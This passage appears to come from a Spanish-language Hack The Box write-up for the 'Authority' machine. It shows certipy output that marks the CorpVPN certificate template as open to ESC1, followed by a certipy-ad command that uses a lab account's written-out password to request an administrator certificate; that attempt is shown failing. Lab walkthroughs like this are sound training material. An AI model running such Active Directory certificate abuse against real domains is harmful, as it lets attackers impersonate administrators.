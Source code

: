 ```bash
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

### ESC1 exploitation case (Machine Account) with certipy-ad

Intentamos explotar `ESC1`, pero el usuario `svc_ldap` no tiene permisos de inscripción (`enrollment`) en el template `CorpVPN`. Solo las cuentas dentro del grupo `HTB\Domain Computers` pueden inscribirse y solicitar certificados con este template.

Si podemos comprometer un equipo con una cuenta de máquina (`AUTHORITY.HTB\PC$`), podríamos usarla para inscribir un certificado y luego abusar de él.

```bash
❯ certipy-ad req -u 'svc_ldap'@10.10.11.222 -p 'lDaP_1n_th3_cle4r!' -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -dc-ip 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 2
Would you like to save the private key? (y/N) 
```
